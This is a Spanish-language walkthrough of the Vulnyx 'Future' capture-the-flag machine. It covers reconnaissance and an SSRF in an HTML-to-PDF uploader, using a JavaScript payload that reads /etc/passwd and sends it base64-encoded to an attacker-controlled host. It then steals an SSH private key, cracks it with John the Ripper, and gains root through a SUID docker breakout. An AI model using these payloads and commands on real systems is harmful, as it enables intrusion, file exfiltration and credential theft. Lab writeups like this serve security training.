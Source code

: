 # Vulnyx Future

### Escaneo de la red local

```bash
arp-scan -I eth0 --localnet
```

```
(IP-victima)  08:00:27:7f:36:3d  PCS Systemtechnik GmbH
```

### Escaneo de puertos

```bash
nmap -p 22,80 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
```

```
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: future.nyx
```

### Configuración de dominio local

```bash
nano /etc/hosts/
```

```
(IP victima)    future.nyx
```

### Encontrando archivos interesantes

Al ingresar al servidor, se observa una imagen de "Volver al futuro" y se deduce que Marty y el Doc pueden ser usuarios posibles.

Ejecutando un escaneo de directorios con `gobuster`:

```bash
gobuster dir -u (IP-victima) -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php,.html
```

```
/assets
/1955.html
    "Welcome to 1955"
/2015.html
    "Welcome to 2015"
/transition
    Gif del Delorean a punto de viajar
/1885.html
    "Welcome to 1885"
/homework.html
    Gag de la película, donde Biff obliga a hacer su tarea de casa
    Permite subir archivos ".html" que serán convertidos a ".pdf"
```

### Vulnerabilidad SSRF

Podemos usar un archivo .html para realizar una comunicación entre un servidor propio y la máquina víctima generando un `<img>` con código malicioso.

```html
<img src="http://(IP atacante):443/prueba.html">
```

Escuchamos con `netcat` en el puerto 443 y subimos el archivo al servidor para generar tráfico entre nuestra máquina atacante y la máquina víctima.

```bash
nc -nlvp 443
```

```
connect to [192.168.200.5] from (UNKNOWN) [(IP-victima)] 54372
GET /prueba.html HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: (IP-atacante):443
```

Ahora podemos interactuar con la máquina víctima.

### Lectura de archivos

Usando un script `<script>` y el archivo .html enviado al servidor mientras escuchamos por el puerto 443, podemos obtener el archivo `/etc/passwd` en base64.

```html
<script>
    var readfile = new XMLHttpRequest(); // Leer archivo local
    var exfil = new XMLHttpRequest(); // Enviar el archivo a nuestro servidor
    readfile.open("GET","file:///etc/passwd", true);
    readfile.send();
    readfile.onload = function() {
        if (readfile.readyState === 4) {
            var url = 'http://<SERVICE IP>:<PORT>/?data=' + btoa(this.response);
            exfil.open("GET", url, true);
            exfil.send();
        }
    }
    readfile.onerror = function() { document.write('<a>Oops!</a>'); }
</script>
```
Fuente: [j4ckie0x17](https://j4ckie0x17.gitbook.io/notes-pentesting/pentesting-web/server-side-request-forgery-ssrf)

Guardamos el archivo en base64, luego lo decodificamos:

```bash
nano etcpasswd
```

**Pegamos el archivo recibido en base64**

```bash
base64 -d etcpasswd > etcpasswd-decodificado
```

```bash
cat etcpasswd-decodificado
```

Contenido importante:

```
root:x:0:0:root:/root:/bin/bash
marty.mcfly:x:1000:1000::/home/marty.mcfly:/bin/bash
emmett.brown:x:1001:1001::/home/emmett.brown:/bin/bash
```

Ya tenemos usuarios y una forma de leer archivos en el servidor. 

### Acceso al archivo id_rsa

```bash
////home/marty.mcfly/.ssh/id_rsa
```

Guardamos el contenido de id_rsa en base64:

```bash
nano idrsa64
```

Pegamos el contenido de id_rsa en base64 y lo decodificamos:

```bash
base64 -d idrsa64 > id_rsa
```

Ahora tenemos el id_rsa del usuario Marty McFly.

### Cracking id_rsa con John the Ripper

Convertimos id_rsa a un formato de hash que John the Ripper pueda usar:

```bash
ssh2john id_rsa > hash
```

Crackeamos el hash con la wordlist rockyou.txt:

```bash
john --wordlist=/usr/share/wodlists/rockyou.txt hash
```

Al no encontrar la contraseña, creamos diccionarios específicos:

```bash
cewl http://(ip-victima)/1955.html -w dic1.txt
cewl http://(ip-victima)/2015.html -w dic2.txt
cewl http://(ip-victima)/1885.html -w dic3.txt
```

Unimos los diccionarios en uno solo:

```bash
cat *.txt > dic.txt
```

Crackeamos el hash con el diccionario creado:

```bash
john --wordlist=dic.txt hash
```

Contraseña encontrada:

```
inadvertently (id_rsa)
```

Ahora podemos ingresar al servidor vía ssh.

```bash
chmod 600 id_rsa
ssh -i id_rsa marty.mcfly@192.168.200.29
```

Contraseña: `inadvertently`

Una vez dentro:

```bash
whoami
```

Salida:

```
marty.mcfly
```

### Escalamiento de privilegios

Buscamos archivos con permisos de suid:

```bash
find / -perm -4000 2>/dev/null
```

Salida:

```
/usr/bin/docker
```

Tenemos acceso a Docker como root. Podemos crear una nueva imagen con toda la información de la máquina víctima.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Fuente: [GTFObins: docker](https://gtfobins.github.io/gtfobins/docker/)

Al ejecutarlo, ya nos da una consola como root en una imagen creada con toda la información de la máquina víctima :D
